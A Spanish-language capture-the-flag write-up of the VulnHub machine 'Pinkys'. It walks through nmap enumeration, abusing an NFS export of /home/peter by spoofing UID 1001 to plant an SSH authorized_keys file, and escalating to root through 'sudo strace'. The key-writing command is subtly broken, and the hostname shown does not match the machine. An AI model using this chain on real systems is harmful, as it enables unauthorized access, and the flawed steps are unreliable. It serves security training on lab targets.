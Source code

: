 ```yaml
---
layout: single
title: pinkys - VulnHub
excerpt: "Pinkys es una máquina vulnerable de VulnHub que cuenta con una vulnerabilidad que reside en una incorrecta configuración de montaje de archivos, que nos permite comprometer la máquina. El proceso de elevación de privilegios se basa en la explotación de una aplicación que con tiene permisos SUID."
date: 2023-10-08
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Pinkys es una máquina fácil, que contiene una vulnerabilidad que reside de una mala configuración de montaje, que nos permite comprometer la máquina. La elevación de privilegios consiste en una incorrecta gestión de permisos de archivos, esto nos permite ejecutar comandos como root.

## Enumeracion

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios(ssh,rpcbind,nfs,mountd,nlockmgr).

```bash
# Nmap 7.93 scan initiated Mon Sep 25 08:33:16 2023 as: nmap -sCV -p22,111,2049,41041,42917,42939,56679 -oN vulnscan.nmap 192.168.0.106
Nmap scan report for 192.168.0.106
Host is up (0.00028s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7a9bb9326f957710c0a0803534b1c000 (RSA)
|   256 240c7a8278182d66463b1a362206e1a1 (ECDSA)
|_  256 b915597885789ea5e616f6cf962d1d36 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      41041/tcp   mountd
|   100005  1,2,3      43523/udp6  mountd
|   100005  1,2,3      50575/tcp6  mountd
|   100005  1,2,3      51299/udp   mountd
|   100021  1,3,4      42917/tcp   nlockmgr
|   100021  1,3,4      44393/tcp6  nlockmgr
|   100021  1,3,4      56691/udp   nlockmgr
|   100021  1,3,4      57572/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
41041/tcp open  mountd   1-3 (RPC #100005)
42917/tcp open  nlockmgr 1-4 (RPC #100021)
42939/tcp open  mountd   1-3 (RPC #100005)
56679/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:D8:9F:D6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 25 08:33:24 2023 -- 1 IP address (1 host up) scanned in 7.06 seconds 
```

## Analisis de puntos de montaje

La herramienta **showmount** permite visualizar sistemas de ficheros montados en un servidor.

```bash
➜  pinkys-palace showmount -e 192.168.0.106
Export list for 192.168.0.106:
/home/peter *
```

Realizamos una réplica local de la montura remota.

```bash
➜  pinkys-palace mount -t nfs  192.168.0.106:/home/peter /mnt/nft
➜  pinkys-palace ls -la /mnt/nft 
total 32
drwxr-xr-x 6 1001 1005 4096 sep 25  2023 .
drwxr-xr-x 1 root root    6 sep 24 21:59 ..
-rw-r--r-- 1 1001 1005  220 jul  9  2018 .bash_logout
-rw-r--r-- 1 1001 1005 3771 jul  9  2018 .bashrc
drwx------ 2 1001 1005 4096 jul 10  2018 .cache
-rw-rw-r-- 1 1001 1005    0 jul 10  2018 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 jul 10  2018 .gnupg
drwxrwxr-x 3 1001 1005 4096 jul 10  2018 .local
-rw-r--r-- 1 1001 1005  807 jul  9  2018 .profile
```

Según Hacktricks, si creamos un usuario con el ID 1001, podremos obtener acceso y crear contenido en todas las carpetas del sistema, lo que sugiere una vulnerabilidad o debilidad en la configuración de permisos del sistemas.
Por lo tanto creamos un usuario.

```bash
adduser --force-badname 1001
```

Una vez que hemos creado el usuario con el ID 1001, hemos obtenido la capacidad de crear y visualizar todos los archivos en el sistema. En consecuencia, hemos aprovechado esta oportunidad para tomar nuestra clave pública y generar un archivo denominado 'authorized_keys' en un directorio que hemos creado específicamente llamado '.ssh'. Esto nos ha habilitado el acceso al usuario 'peter' sin la necesidad de autenticación basada en contraseñas, permitiendo la autenticación mediante claves públicas.

```bash
➜  nft ls -la .ssh/authorized_keys 
-rw-r--r-- 1 1001 1001 565 sep 25  2023 .ssh/authorized_keys
➜  nft l
total 32K
drwxr-xr-x 6 1001 1005 4,0K sep 25  2023 .
drwxr-xr-x 1 root root    6 sep 24 21:59 ..
-rw-r--r-- 1 1001 1005  220 jul  9  2018 .bash_logout
-rw-r--r-- 1 1001 1005 3,7K jul  9  2018 .bashrc
drwx------ 2 1001 1005 4,0K jul 10  2018 .cache
-rw-rw-r-- 1 1001 1005    0 jul 10  2018 .cloud-locale-test.skip
drwx------ 3 1001 1005 4,0K jul 10  2018 .gnupg
drwxrwxr-x 3 1001 1005 4,0K jul 10  2018 .local
-rw-r--r-- 1 1001 1005  807 jul  9  2018 .profile
drwxr-xr-x 2 1001 1001 4,0K sep 25  2023 .ssh
```

Para generar las claves ssh lo hacemos de la siguiente manera.

```bash
ssh-keygen -t rsa
echo id_rsa.pub >> /mnt/nft/.ssh/authorized key
```

## Escalada de privilegios 

Cuando ingresamos a la máquina y ejecutamos el comando **sudo -l**. Observamos una incorrecta configuración de permisos de archivos. Esto nos permite acceder como root.

```bash
peter@linsecurity:~$ sudo -l
Matching Defaults entries for peter on linsecurity:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on linsecurity:
    (ALL) NOPASSWD: /usr/bin/strace

```

### GTFOBins

GTFOBins nos indica que la utilidad 'strace' presenta una vulnerabilidad.

```bash
peter@linsecurity:~$ sudo strace -o /dev/null /bin/sh
# whoami
root
```

